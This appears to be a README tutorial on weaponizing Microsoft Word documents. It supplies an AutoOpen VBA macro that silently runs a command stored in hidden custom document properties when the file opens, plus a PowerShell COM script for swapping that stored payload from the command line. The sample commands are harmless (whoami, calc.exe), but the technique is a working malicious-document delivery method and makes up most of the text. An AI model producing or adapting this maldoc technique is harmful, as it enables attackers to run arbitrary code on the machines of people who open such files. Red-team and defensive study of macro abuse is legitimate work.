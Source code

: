 # Office Macros With Hidden Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell. The ultimate goal was to be able to quickly edit a word document and modify payloads from the command line. Although creating the document is still a manual procedure, changing the payload can be made easier by using PowerShell. 

## 1. Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

6. Click the `X` to close the Macro dialog box. 
![Create Macro](images/11.png)

7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 
![Create Macro](images/12.png)

## 2. Modify the payload with PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```